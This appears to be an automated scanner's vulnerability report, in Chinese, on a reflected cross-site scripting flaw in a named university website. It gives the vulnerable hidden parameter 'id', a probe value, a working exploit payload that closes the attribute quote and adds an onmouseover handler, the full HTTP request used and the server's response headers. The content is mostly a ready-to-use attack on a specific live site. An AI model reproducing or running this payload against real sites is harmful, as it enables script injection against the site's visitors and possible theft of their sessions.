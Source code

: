 ## https://ies.ecust.edu.cn/event.php%3Fact=json&start=
| Key | Value |
| --- | ----- |
| XSS类型 | AttibuteValue |
| 时间 | 2024-11-07 16:56:01 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | id |
| 描述 | 引号可被闭合,可使用其他事件造成xss,TagName:a |
| Payload | id='ysndv4 |
| 利用payload | id='onmouseover=prompt(1) |

### 请求包
```
GET /event.php%3Fact=json&start=?api=sx9n0&api_key=nd101&enddate=jh2o0&from=l67w9&id=%27ysndv4&item=xzpo7&jsonp=i1856&keyword=yjnr4&keywords=nwen9&m=onm46&page_id=xxbw9&password=tk8n1&query=w28c8&redirect=lzrc8&region=wej18&s=emgr7&terms=o9xh5&text=ygeu1&token=kc8x8&type=scqa4 HTTP/1.1
Host: ies.ecust.edu.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
X-Frame-Options: SAMEORIGIN SAMEORIGIN SAMEORIGIN SAMEORIGIN SAMEORIGIN
Set-Cookie: PHPSESSID=rr0p725mfhln4m2tv2gmo1f741; path=/; secure; HttpOnly Path=/; HttpOnly; Secure
X-Xss-Protection: 1;mode=block 1; mode=block 1; mode=block
Server: none
X-Content-Type-Options: nosniff nosniff nosniff
X-Permitted-Cross-Domain-Policies: master-only master-only master-only
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
X-Download-Options: noopen noopen noopen
Date: Thu, 07 Nov 2024 16:55:58 GMT
Pragma: no-cache
Connection: keep-alive
Strict-Transport-Security: true
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Content-Type: text/html
Referrer-Policy: origin strict-origin-when-cross-origin strict-origin strict-origin-when-cross-origin strict-origin

```
